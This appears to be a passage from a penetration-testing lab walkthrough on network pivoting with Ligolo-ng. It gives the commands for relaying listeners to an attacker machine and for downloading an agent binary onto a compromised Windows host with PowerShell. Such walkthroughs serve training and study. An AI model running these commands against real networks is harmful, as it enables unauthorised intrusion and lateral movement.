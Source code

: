 ![image.png](image%205.png)

After compromising the Windows target (`192.168.2.8`) from the Linux pivot, the next objective is to establish further access into deeper network segments. This is achieved by transferring and executing the Ligolo-ng agent on the newly reached Windows host.

## Prepare to Transfer the Agent

Create a Ligolo-ng listener on the Linux target to forward requests for the agent binary back to your attacker machine:

```bash
listener_add --addr 0.0.0.0:8000 --to 10.10.14.7:8000
```

This will forward traffic from the Linux target’s port 8000 to the attacker's port 8000, allowing you to serve the agent binary for download.

## Download the Agent on the Windows Target

On the Windows system, use PowerShell to download the agent from the Linux target’s internal interface:

```bash
Invoke-WebRequest -Uri "http://192.168.2.5:8000/agent.exe" -OutFile agent.exe
```

## Set Up a Listener for the New Agent Session

Next, create another listener for the Ligolo-ng agent to connect from Windows, relaying it back to the attacker's Ligolo-ng proxy:

```bash
listener_add --addr 0.0.0.0:11601 --to 10.10.14.7:11601
```

![image.png](image%206.png)
